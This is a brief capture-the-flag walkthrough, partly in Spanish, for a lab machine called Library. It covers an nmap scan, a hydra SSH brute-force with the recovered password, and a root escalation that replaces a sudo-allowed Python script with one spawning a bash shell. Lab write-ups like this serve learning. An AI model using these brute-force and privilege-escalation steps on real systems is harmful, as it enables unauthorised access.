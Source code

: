 # Library
Bruteforcing=Disgusting
## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
```
## Enum
### HTTP 
Mirando la pagina encontramos al menos 4 usuarios root,www-data,meliodas y Anonymous
#### Robots.txt
```
User-agent: rockyou 
Disallow: /
```
Eso significa que haga bruteforce de creds, **disgusting**

## Exploit
```
hydra -L users.txt -P rockyou.txt ssh://IP 
```
Finalmente
```
[22][ssh] host: 10.10.129.130   login: meliodas   password: iloveyou1
```

## Privesc

```
User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```
El archivo esta read protected, pero podemos eliminarlo y crear uno nuevo con el siguiente contenido
```python
import os
os.system('/bin/bash')
```
Y ya seriamos root
